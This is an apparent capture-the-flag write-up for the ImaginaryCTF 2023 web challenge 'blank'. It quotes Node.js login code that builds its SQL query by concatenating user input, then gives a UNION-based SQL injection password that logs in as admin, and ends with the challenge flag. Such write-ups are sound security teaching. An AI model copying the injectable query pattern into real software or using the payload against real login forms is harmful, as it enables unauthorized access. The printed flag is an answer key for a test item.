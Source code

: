 ```yaml
---
title: 2023 ImaginaryCTF - blank
date: 2023-07-23 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_imaginaryCTF
  - Web Exploitation
  - SQL injection
---
```


## Overview

* Points: 100

## Description

> I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

### Attached

[blank_dist.zip](https://github.com/encuetee/CTF-writeups/blob/main/2023/2023_imaginaryctf/attached/blank_dist.zip)

## Analyzation

Check the ```app.js```, these are important lines

```js
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});
```

```js
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});
```

So, username must be "admin", and we need to bypass the password checker.

## Solution

```
Username = admin 
Password = " UNION SELECT 1337,"junk","junk" -- 
```

Password values can be anything, but UNION requires same argument count and same types (or just NULL values)

The flag is
```
ictf{sqli_too_powerful_9b36140a}

```